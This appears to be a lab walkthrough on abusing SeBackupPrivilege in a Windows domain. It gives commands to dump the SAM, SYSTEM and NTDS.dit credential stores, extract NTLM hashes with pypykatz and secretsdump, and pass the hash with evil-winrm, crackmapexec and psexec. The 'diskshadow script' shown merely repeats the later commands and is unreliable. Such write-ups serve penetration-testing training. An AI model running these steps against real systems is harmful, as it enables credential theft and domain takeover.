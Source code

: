 **Lab Setup (as Administrator)**:

for local user:

### For **Local Users**:

Grant `SeBackupPrivilege` by adding the user to the **Backup Operators** group on the target system.

### For **Domain Users**:

On the **Domain Controller (DC)**:

1. Open **Active Directory Users and Computers**.
2. Right-click the user > **Add to group**.
3. Add to:
    - `Backup Operators`
    - `Remote Management Users` (to allow `evil-winrm` access)

![image](https://github.com/user-attachments/assets/0f221a7f-8673-4fd3-b274-11d441f57334)


 Access the Target via Evil-WinRM

```jsx
 evil-winrm -i 192.168.216.130 -u john-low –p "Test@123”
```

![image](https://github.com/user-attachments/assets/73372389-49c4-4e3a-a2b5-0eb2df6e6b52)

Check user privilege 

![image](https://github.com/user-attachments/assets/536e84dd-6f2b-412d-b54d-2e9f5247d381)


check for User:

```jsx
Get-ADUser -Filter * | Select-Object Name, SamAccountName
```

![image](https://github.com/user-attachments/assets/bf892bb2-5a6c-4a38-b073-3bc330b68aa8)


**Exploiting Privilege on Domain Controller (Method 1)**

## Dump Registry Hives (SAM & SYSTEM)

Once connected via `evil-winrm`:

```jsx
cd c:\
mkdir Temp
reg save hklm\sam c:\Temp\sam
reg save hklm\system c:\Temp\system
```

![image](https://github.com/user-attachments/assets/fdb38b81-2bef-4db4-9218-7aa945b8e9a5)


Download the Files to Attacker Machine

```jsx
cd Temp
download sam
download system
```

![image](https://github.com/user-attachments/assets/ce0c39d7-0270-4eb5-9d74-ef0fa77b93a3)


## Extract Hashes

Using **Pypykatz**

```jsx
pypykatz registry --sam sam system
```

![image](https://github.com/user-attachments/assets/5597c2fb-35ba-40e8-beb4-8992bf65f56a)


You’ll get output like:

Administrator:500:aad3b435b51404eeaad3b435b51404ee:5e0375cf8e440aa58a809d57edd78996:

or

Using **secretsdump.py** (from Impacket)

```jsx
[secretsdump.py](http://secretsdump.py/) -system /home/kali/system -sam /home/kali/sam LOCAL
```

![image](https://github.com/user-attachments/assets/a61dea99-8902-45fa-809f-16246a591f3a)


## Use Extracted Hash for Lateral Movement

Option 1: evil-winrm (Pass-the-Hash)

```jsx
evil-winrm -i 192.168.216.130 -u corp\administrator -H "5e0375cf8e440aa58a809d57edd78996"
```

Option 2: crackmapexec

```jsx
crackmapexec smb 192.168.216.130 -u Administrator -H 5e0375cf8e440aa58a809d57edd78996
```

Option 3: [psexec.py](http://psexec.py/) (Impacket)

```jsx
cd ~/impacket

python3 ~/impacket/examples/psexec.py corp.local/Administrator@192.168.216.130 -hashes :5e0375cf8e440aa58a809d57edd78996
```

![image](https://github.com/user-attachments/assets/5369cff1-f7da-4ccd-833a-537251539c2d)


**Exploiting Privilege on Domain Controller (Method 2)**

This method leverages **SeBackupPrivilege** to extract the **NTDS.dit** file (Active Directory database) and the SYSTEM hive to dump password hashes.

---

### Step 1: Prepare `diskshadow` Script

On your **attacker machine**, create a `john.dsh` file with the following content:

```jsx
cd C:\Temp
upload john.dsh
diskshadow /s john.dsh
robocopy /b z:\windows\ntds . ntds.dit
```

![image](https://github.com/user-attachments/assets/a180a8d5-812b-4eaf-b26d-0190f30edb39)


This script tells `diskshadow` to create a shadow copy of the C: drive and mount it as `Z:`.

### Step 2: Upload and Execute the Script on Target

From your `evil-winrm` session:

```jsx
cd C:\Temp
upload john.dsh
diskshadow /s john.dsh
robocopy /b z:\windows\ntds . ntds.dit
```

![image](https://github.com/user-attachments/assets/c2b6c3d1-7cdd-4a5d-b71f-dbb327c809b5)


`robocopy /b` uses **backup mode**, which requires `SeBackupPrivilege`.

### Step 3: Dump SYSTEM Hive and Download Files

```jsx
reg save hklm\system c:\Temp\system
cd C:\Temp
download ntds.dit
download system
```

![image](https://github.com/user-attachments/assets/fdd504f7-23e5-4913-b56a-1f85294abea6)


### Step 4: Extract Hashes Using impacket-secretsdump

On your **attacker machine**:

```jsx
impacket-secretsdump -ntds ntds.dit -system system local
```

![image](https://github.com/user-attachments/assets/785ac784-9abc-4625-9fda-068746c18e00)


This will dump all domain user hashes from the NTDS database.

### Step 5: Reuse Hash (Pass-the-Hash)

Use the dumped NTLM hash of the **Administrator** (or any privileged account) to move laterally or elevate privileges:

### Option 1: evil-winrm

```jsx
evil-winrm -i 192.168.216.130 -u administrator -H "96ad902c01c2a7708efa943ad7313feb
```

Option 2: impacket-psexec

```jsx
impacket-psexec corp/Administrator@192.168.216.130 -hashes aad3b435b51404eeaad3b435b51404ee:96ad902c01c2a7708efa943ad7313feb
```

![image](https://github.com/user-attachments/assets/6c8e5482-4c0d-46a6-8164-aa2bb9b87bce)
